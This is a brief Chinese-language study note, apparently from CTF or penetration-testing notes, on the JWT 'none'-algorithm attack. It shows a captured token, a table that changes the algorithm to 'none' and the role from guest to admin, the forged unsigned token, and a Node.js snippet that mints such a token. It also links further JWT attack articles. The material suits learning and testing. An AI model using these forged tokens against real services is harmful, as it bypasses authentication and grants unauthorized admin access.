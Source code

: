# 空加密

## 示例 1

admin admin 登陆 jwt 值为

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJndWVzdCJ9.1tg4f5ZwANJCK8gAzI1gL1-yGoB4DS8OXQDKXJRd-YU
```

格式为 `[算法].[Payload].[签名]`

| 修改前                                                 | 修改后                                                 |
| ------------------------------------------------------ | ------------------------------------------------------ |
| {"typ":"JWT","alg":"HS256"}                            | {"typ":"JWT","alg":`"none"`}                             |
| {"username":"admin","password":"admin","role":"guest"} | {"username":"admin","password":"admin","role":`"admin"`} |

算法替换为 "none", 然后转换回base64, 可以丢掉签名。

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9.`

## 示例 2

nodejs 中的 jwt 库在签名时用 algorithm 指定算法，而在验签时用 algorithms 指定算法
在测试 jwt 相关的安全问题时可以使用 burpsuite 的 JOSEPH 插件辅助测试

```ts
// https://www.secpulse.com/archives/129304.html
// https://blog.csdn.net/miuzzx/article/details/127744431#t1
const jwt = require("jsonwebtoken")

var payload = {
  secretid: [],
  username: "admin"
}
var token = jwt.sign(payload, undefined, { algorithm: "none" })
console.log(token)
```

# Article

[浅析 JWT Attack](https://mp.weixin.qq.com/s/WvVgavjJMXSZQsVFtHEOhA)
[JWT 相关题目刷题](https://mp.weixin.qq.com/s/Ss9Oc2ZN7qFboBWaXfrDLA)
[『红蓝对抗』JWT 攻击手法](https://mp.weixin.qq.com/s/OVppZClKRWP8zNEBjZPRow)
[JWT 攻击手法——1](https://mp.weixin.qq.com/s/kkoskD6d69G59bRK8nyUdw)
[API | JWT渗透姿势](https://mp.weixin.qq.com/s/1e94h4NFiIbVDMiIXtjgGQ)
